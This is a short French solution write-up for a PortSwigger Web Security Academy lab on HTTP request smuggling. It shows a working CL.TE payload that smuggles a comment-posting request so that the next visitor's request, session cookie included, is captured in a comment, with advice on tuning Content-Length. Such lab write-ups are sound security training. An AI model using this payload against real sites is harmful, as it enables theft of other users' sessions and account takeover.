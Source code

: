 # Lab

https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests

## Solution

Sur ce lab, les requêtes de la home page peuvent être smugglé.

On a la possibilité de posté des commentaire.

L'objectif de ce lab est de smuggler une requête de post de commentaire, lorsqu'un utilisateur visitera le sote, il exécutera à son insu la requête smuggled.

La requête va poster les headers de la requête smuggled + les siens (dont les cookies) :

```http
POST / HTTP/1.1
Host: 0a21004b04ee77e284e2272e001e000f.web-security-academy.net
Cookie: session=EciXHCiFoNckVKBocaxsPLjUZwgtEa2U
Content-Length: 264
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0


POST /post/comment HTTP/1.1
Cookie: session=EciXHCiFoNckVKBocaxsPLjUZwgtEa2U
Content-Length: 900
Content-Type: application/x-www-form-urlencoded

csrf=lZS51389g8urYR6tNDJVAuoE0FMKPKNu&postId=6&name=My+name&email=my-email%40email.com&website=&comment=
```

Pour que cette attaque fonctionne, il faut adapter le `Content-Length` de la requête smuggled.

Si le `Content-Length` est trop petit, la requête smuggled sera tronquée.

Si le `Content-Length` est trop grand, la requête smuggled résultera en time-out et ne sera pas exécutée.

Pour déterminer la bonne valeur du `Content-Length`, on a pas le choix que de le faire de façon empirique et de tester notre payload sur nous même.
